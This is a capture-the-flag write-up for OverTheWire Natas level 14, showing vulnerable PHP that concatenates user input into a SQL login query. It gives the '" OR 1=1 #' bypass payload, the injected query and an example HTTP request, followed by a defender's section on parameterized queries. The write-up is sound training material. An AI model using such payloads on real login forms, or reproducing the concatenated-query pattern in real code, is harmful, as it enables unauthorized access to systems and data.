



# Natas Level 14 → 15

**Vulnerability:** SQL Injection → Authentication Bypass
**Difficulty:** Medium
**Tools Used:** Browser, Source Code Review
**OWASP Category:** A03:2021 – Injection

---

## What the level gives you

The application presents a login form requiring a username and password.

A source code link is provided, allowing inspection of the backend authentication logic. The page checks submitted credentials against a MySQL database and grants access when a matching record is found.

The objective is to bypass authentication and obtain the password for Natas15.

---

## Source code analysis

The application builds an SQL query using user-supplied input:

```php
$link = mysqli_connect("localhost", "natas14", "<censored>");
mysqli_select_db($link, "natas14");

$query =
"SELECT * from users where username=\"".$_REQUEST["username"].
"\" and password=\"".$_REQUEST["password"]."\"";

// User-controlled input is inserted directly into the SQL query
// No parameterized statements or escaping are used
// An attacker can inject arbitrary SQL syntax
```

The query is then executed:

```php
$res = mysqli_query($link, $query);

// The database executes attacker-supplied input as part of the SQL statement
```

Authentication succeeds whenever at least one row is returned:

```php
if(mysqli_num_rows($res) > 0) {
    // Successful login
}

// Any injected condition evaluating to TRUE
// will satisfy the authentication check
```

The vulnerability exists because untrusted input is concatenated directly into an SQL statement without parameterization.

---

## Approach

After reviewing the source code, I immediately focused on the SQL query construction.

The username and password values were inserted directly into the query string, which indicated a classic SQL injection vulnerability.

My first step was confirming whether special characters affected the query structure. Once I verified that the application performed no input sanitization, the objective became forcing the WHERE clause to evaluate as true regardless of the actual password.

The turning point was recognizing that authentication only required the query to return at least one record. If an injected condition always evaluated to true, the login check would succeed automatically.

---

## Exploitation

The vulnerable query structure is:

```sql
SELECT * FROM users
WHERE username="<input>"
AND password="<input>"
```

A classic authentication bypass payload was supplied:

```text
Username: " OR 1=1 #
Password: anything
```

Resulting SQL query:

```sql
SELECT * FROM users
WHERE username="" OR 1=1 #"
AND password="anything"

// OR 1=1 always evaluates to TRUE
// # comments out the remainder of the query
```

The application accepted the login and disclosed the next password.

Example HTTP request:

```http
POST /index.php HTTP/1.1
Host: natas14.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

username=" OR 1=1 #
&password=test

# Authentication bypass using SQL injection
```

Response:

```text
Successful login
Password for Natas15: <password>
```

---

## Screenshot

### Source code vulnerability

Shows direct SQL query construction using unsanitized user input.



### Password retrieval

Shows successful authentication bypass and disclosure of the Natas15 password.




---

## Real-world relevance

This vulnerability falls under OWASP A03:2021 – Injection. SQL injection remains one of the most impactful web application vulnerabilities because it allows attackers to manipulate backend database queries.

Authentication bypass through SQL injection is frequently encountered during penetration tests against legacy applications, internally developed portals, and systems that concatenate user input directly into SQL statements.

Real-world incidents involving SQL injection have resulted in unauthorized access, credential theft, database exfiltration, and complete application compromise.

---

## Defender's perspective

The correct defense is parameterized queries using prepared statements. User input should never be concatenated directly into SQL commands.

Modern frameworks provide ORM layers and query parameterization mechanisms that eliminate this class of vulnerability when used correctly.

Additionally, a WAF can detect common SQL injection patterns such as `OR 1=1`, although secure coding practices remain the primary defense.

---

## What I'd do differently

Instead of immediately testing authentication bypass payloads manually, I would use an intercepting proxy such as Burp Suite to quickly validate multiple SQL injection variations and identify the most reliable payload.
